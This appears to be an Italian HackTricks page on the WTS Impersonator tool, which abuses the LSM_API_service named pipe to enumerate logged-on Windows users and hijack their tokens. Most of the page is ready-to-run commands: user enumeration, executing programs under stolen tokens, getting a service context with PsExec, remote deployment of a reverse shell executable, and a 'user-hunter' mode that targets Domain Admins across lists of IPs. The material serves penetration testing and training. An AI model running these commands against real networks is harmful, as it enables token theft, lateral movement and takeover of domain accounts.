 {{#include ../../banners/hacktricks-training.md}}

Lo strumento **WTS Impersonator** sfrutta il **"\\pipe\LSM_API_service"** RPC Named pipe per enumerare furtivamente gli utenti connessi e dirottare i loro token, eludendo le tecniche tradizionali di impersonificazione dei token. Questo approccio facilita movimenti laterali senza soluzione di continuità all'interno delle reti. L'innovazione dietro questa tecnica è attribuita a **Omri Baso, il cui lavoro è accessibile su [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Funzionalità Principali

Lo strumento opera attraverso una sequenza di chiamate API:
```bash
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Moduli Chiave e Utilizzo

- **Enumerazione Utenti**: L'enumerazione degli utenti locali e remoti è possibile con lo strumento, utilizzando comandi per ciascun scenario:

- Localmente:
```bash
.\WTSImpersonator.exe -m enum
```
- Remotamente, specificando un indirizzo IP o un nome host:
```bash
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Esecuzione di Comandi**: I moduli `exec` e `exec-remote` richiedono un contesto di **Servizio** per funzionare. L'esecuzione locale richiede semplicemente l'eseguibile WTSImpersonator e un comando:

- Esempio per l'esecuzione di comandi locali:
```bash
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe può essere utilizzato per ottenere un contesto di servizio:
```bash
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Esecuzione Remota di Comandi**: Comporta la creazione e l'installazione di un servizio in remoto simile a PsExec.exe, consentendo l'esecuzione con le autorizzazioni appropriate.

- Esempio di esecuzione remota:
```bash
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Modulo di Caccia agli Utenti**: Mira a utenti specifici su più macchine, eseguendo codice sotto le loro credenziali. Questo è particolarmente utile per mirare agli Amministratori di Dominio con diritti di amministratore locale su diversi sistemi.
- Esempio di utilizzo:
```bash
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
